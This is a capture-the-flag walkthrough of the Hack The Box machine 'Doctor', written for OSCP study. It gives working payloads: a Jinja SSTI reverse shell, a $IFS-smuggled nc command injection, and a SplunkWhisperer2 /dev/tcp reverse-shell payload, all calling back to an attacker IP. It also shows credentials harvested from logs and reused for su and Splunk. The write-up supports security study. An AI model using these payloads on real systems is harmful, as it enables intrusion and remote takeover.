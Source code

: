 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

## 🧭 Recon

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.209
nmap -p 22,80,8089 -sCV -oA scans/nmap-tcpscripts 10.10.10.209
```

- Ports:
  - 22: [SSH](SSH) (OpenSSH 8.2p1)
  - 80: [HTTP](HTTP) (Apache/2.4.41)
  - 8089: HTTPS (Splunkd)

Discovered a subdomain: `doctors.htb`

---

## 🌐 Web Enumeration

### Port 80
- Default Apache page
- Discovered email: `info@doctors.htb`
- Add `doctors.htb` to `/etc/hosts`

### doctors.htb
- Werkzeug Python web server with Flask
- Create account ➝ login ➝ "New Message"
- URL `/archive` provides RSS output ➝ SSTI confirmed

```jinja
{{7*7}} ➝ renders to 49 in /archive
```

---

## 🧨 Exploitation - Shell as `web`

### Server-Side Template Injection (SSTI)
```jinja
{% for x in ().__class__.__base__.__subclasses__() %}
  {% if "warning" in x.__name__ %}
    {{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"10.10.14.6\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\", \"-i\"])'").read()}}
  {% endif %}
{% endfor %}
```

### Or Command Injection via POST
```bash
http://10.10.14.6/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.6'$IFS'443')
```

---

## 👤 Shell as `shaun`

### Inspect logs due to `web` being in `adm` group:
```bash
grep -r passw /var/log
```

Found:
```bash
POST /reset_password?email=Guitar123
```

```bash
su - shaun
Password: Guitar123
cat /home/shaun/user.txt
```

---

## 🔐 Privilege Escalation to `root`

### SplunkWhisperer2 RCE Exploit

#### Get Splunk creds:
- shaun:Guitar123 also works for Splunk 8089

#### Run SplunkWhisperer2
```bash
python3 PySplunkWhisperer2_remote.py \
  --host 10.10.10.209 \
  --lhost 10.10.14.6 \
  --username shaun \
  --password Guitar123 \
  --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
```

### Catch root shell:
```bash
nc -lnvp 443
id
cat /root/root.txt
```

---

## 🧠 Beyond Root

### Flask Session Hijack Post-Reset
- Cookies store `_user_id` ➝ reused after box reset to impersonate `shaun`

### Command Injection in FlaskForm
```python
os.system(f'/bin/curl --max-time 2 {url} -o {path}')
```

Any user input containing `$(...)` or backticks can result in RCE.

---

**Techniques**
- Flask SSTI ➝ RCE
- Log analysis ➝ Password reuse
- SplunkWhisperer2 ➝ Root RCE